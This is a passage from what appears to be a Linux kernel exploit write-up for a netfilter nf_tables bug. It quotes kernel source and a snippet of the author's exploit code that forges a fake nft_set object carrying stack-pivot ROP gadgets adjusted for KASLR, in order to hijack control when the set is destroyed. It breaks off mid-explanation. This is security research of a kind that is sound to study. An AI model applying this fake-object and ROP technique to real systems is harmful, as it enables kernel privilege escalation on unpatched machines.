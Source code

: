 - [net/netfilter/nf_tables_api.c:nft_set_lookup](https://git.kernel.org/pub/scm/linux/kernel/git/stable/linux.git/tree/net/netfilter/nf_tables_api.c?h=linux-5.15.y&id=f48aeeaaa64c628519273f6007a745cf55b68d95#n3798)
```c
static struct nft_set *nft_set_lookup(const struct nft_table *table,
				      const struct nlattr *nla, u8 genmask)
{
	struct nft_set *set;

	if (nla == NULL)
		return ERR_PTR(-EINVAL);

	list_for_each_entry_rcu(set, &table->sets, list) {
		if (!nla_strcmp(nla, set->name) &&
		    nft_active_genmask(set, genmask))
			return set;
	}
	return ERR_PTR(-ENOENT);
}
```
- [exploit/extra-refined/exploit.c#L1123](../exploit/extra-refined/exploit.c#L1123)
```c
 // fake nft_set with ROP primer
*(uintptr_t *)(buf_ptr + 0x18) = curr_gadget->pivot_gadget_nocg_3_offset + kaslr_slide; // [3]
*(uintptr_t *)(buf_ptr + 0x30) = nft_set_addr + 0xd8;                                   // name
*(uintptr_t *)(buf_ptr + 0x39) = curr_gadget->pivot_gadget_nocg_2_offset + kaslr_slide; // [2]
*(uintptr_t *)(buf_ptr + 0x60) = 0;                                                     // field_count, use
*(uintptr_t *)(buf_ptr + 0xc0) = nft_set_addr + 0xd0 - 0x68;                            // ops => gonna call ->destroy [+0x68]
*(uintptr_t *)(buf_ptr + 0xc8) = 0;                                                     // flags, genmask, klen, dlen, num_exprs
*(uintptr_t *)(buf_ptr + 0xd0) = curr_gadget->pivot_gadget_nocg_1_offset + kaslr_slide; // [1]
strcpy(buf_ptr + 0xd8, RECLAIM_SET_NAME);
```
Beside `ops` fields and pivot gadgets, there are several fields in `struct nft_set` object which affect routines for RIP control. The exploit set these fields properly and constructs the fake object.
- `name` and `genmask` fields are used to identify the `struct nft_set` object in `nf_set_lookup` function. We properly set the `name` field with the fake name pointer and set the `genmask` field to `0`.
- `use` and `num_exprs` fields are used in `nft_set_destroy` function for cleanup. We set it both to `0` to avoid checks and additional cleanup routines.

- [net/netfilter/nf_tables_api.c:trans_destroy_work](https://git.kernel.org/pub/scm/linux/kernel/git/stable/linux.git/tree/net/netfilter/nf_tables_api.c?h=linux-5.15.y&id=f48aeeaaa64c628519273f6007a745cf55b68d95#n123)
```c
static DECLARE_WORK(trans_destroy_work, nf_tables_trans_destroy_work);
```

- [net/netfilter/nf_tables_api.c:nf_tables_trans_destroy_work()](https://git.kernel.org/pub/scm/linux/kernel/git/stable/linux.git/tree/net/netfilter/nf_tables_api.c?h=linux-5.15.y&id=f48aeeaaa64c628519273f6007a745cf55b68d95#n8475)
```c
static void nf_tables_trans_destroy_work(struct work_struct *w)
{
// ...
	list_for_each_entry_safe(trans, next, &head, list) {
		list_del(&trans->list);
		nft_commit_release(trans);
	}
}
```
However, the deletion of `struct nft_set` is not directly executed on the syscall context, but it is committed and processed with kernel worker `trans_destroy_work`. Since the actual RIP control and execution of the ROP payload occurs in the kernel worker context, it brings the following issues.